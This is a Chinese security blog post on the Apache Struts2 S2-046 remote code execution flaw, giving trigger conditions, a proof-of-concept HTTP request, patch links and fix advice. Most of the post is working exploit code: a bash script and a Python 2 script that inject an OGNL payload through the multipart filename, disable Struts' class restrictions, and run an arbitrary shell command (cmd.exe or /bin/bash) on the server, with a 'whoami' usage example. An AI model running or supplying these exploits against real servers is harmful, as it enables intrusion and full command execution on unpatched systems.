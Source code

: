 ```yaml
---
title: Struts2-046漏洞
date: 2017-03-21 10:41:05
comments: true
tags: struts2
categories: web安全
---
```

<blockquote class="blockquote-center">屋漏偏逢连夜雨，船迟又遇打头风</blockquote>
免责申明：*文章中的工具等仅供个人测试研究，请在下载后24小时内删除，不得用于商业或非法用途，否则后果自负*
　　Apache Struts 2 2.3.32之前的2 2.3.x版本和2.5.10.1之前的2.5.x版本中的Jakarta Multipart解析器存在安全漏洞，该漏洞源于程序没有正确处理文件上传。攻击者可以通过构造HTTP请求头中的Content-Type值可能造成远程任意代码执行，S2-046与S2-045漏洞属于同一类型，不同向量。如果在之前S2-045漏洞曝光后用户已经升级过官方补丁，这次就不受影响。
<!--more -->

### 触发条件
1.上传文件的大小（由Content-Length头指定）大于Struts2允许的最大大小（2GB）。
2.文件名内容构造恶意的OGNL内容。

### S2-046PoC
```bash
POST /doUpload.action HTTP/1.1
Host: localhost:8080
Content-Length: 10000000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAnmUgTEhFhOZpr9z
Connection: close
 
------WebKitFormBoundaryAnmUgTEhFhOZpr9z
Content-Disposition: form-data; name="upload"; filename="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test','Kaboom')}"
Content-Type: text/plain
Kaboom 
 
------WebKitFormBoundaryAnmUgTEhFhOZpr9z--
```
### Exp
#### Sh版
```bash
#!/bin/bash

url=$1
cmd=$2
shift
shift

boundary="---------------------------735323031399963166993862150"
content_type="multipart/form-data; boundary=$boundary"
payload=$(echo "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"$cmd"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}")

printf -- "--$boundary\r\nContent-Disposition: form-data; name=\"foo\"; filename=\"%s\0b\"\r\nContent-Type: text/plain\r\n\r\nx\r\n--$boundary--\r\n\r\n" "$payload" | curl "$url" -H "Content-Type: $content_type" -H "Expect: " -H "Connection: close" --data-binary @- $@
```
sh exploit-cd.sh http://xxx.com/action "whoami"

#### Python版
```bash
__author__ = 'hackteam.cn'
import pycurl
import StringIO
import urllib
def tt(url,data):
    sio = StringIO.StringIO()
    c = pycurl.Curl()
    c.setopt(pycurl.URL, url)
    c.setopt(pycurl.REFERER, url)
    c.setopt(pycurl.HTTPHEADER, ['Connection: close', 'Content-Type: multipart/form-data; boundary=---------------------------735323031399963166993862150', 'User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.143 Safari/537.36'])
    c.setopt(pycurl.HTTP_VERSION, pycurl.CURL_HTTP_VERSION_1_0)
    c.setopt(pycurl.POST, 1)
    c.setopt(pycurl.POSTFIELDS, data)
    c.setopt(pycurl.CONNECTTIMEOUT, 300)
    c.setopt(pycurl.TIMEOUT, 300)
    c.setopt(pycurl.WRITEFUNCTION, sio.write)
    try:
        c.perform()
    except Exception, ex:
        pass
    c.close()
    resp = sio.getvalue()
    sio.close()
    return resp

data="-----------------------------735323031399963166993862150\r\nContent-Disposition: form-data; name=\"foo\"; filename=\"%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}\0b\"\r\nContent-Type: text/plain\r\n\r\nx\r\n-----------------------------735323031399963166993862150--\r\n\r\n"
print tt('https://xxx.action',data)
```
### 修复建议
1. 严格过滤 Content-Type 、filename里的内容，严禁ognl表达式相关字段。
2. 如果您使用基于Jakarta插件，请升级到Apache Struts 2.3.32或2.5.10.1版本。（强烈推荐）

### 官网公告
https://cwiki.apache.org/confluence/display/WW/S2-045
https://cwiki.apache.org/confluence/display/WW/S2-046


### 补丁地址
Struts 2.3.32：https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.32 
Struts 2.5.10.1：https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.10.1 


### 参考
http://struts.apache.org/docs/s2-045.html
http://struts.apache.org/docs/s2-046.html
https://community.hpe.com/t5/Security-Research/Struts2-046-A-new-vector/ba-p/6949723


欲知Struts2-045请参考：[struts2_045漏洞](http://thief.one/2017/03/07/Struts2-045%E6%BC%8F%E6%B4%9E/)
欲知Struts2历史Poc请参数：[struts2漏洞poc汇总](http://thief.one/2017/03/13/Struts2%E6%BC%8F%E6%B4%9EPOC%E6%B1%87%E6%80%BB/)

转载请说明出处:[Struts2_046漏洞](http://thief.one/2017/03/21/Struts2-046%E6%BC%8F%E6%B4%9E/)
本文地址：http://thief.one/2017/03/21/Struts2-046%E6%BC%8F%E6%B4%9E/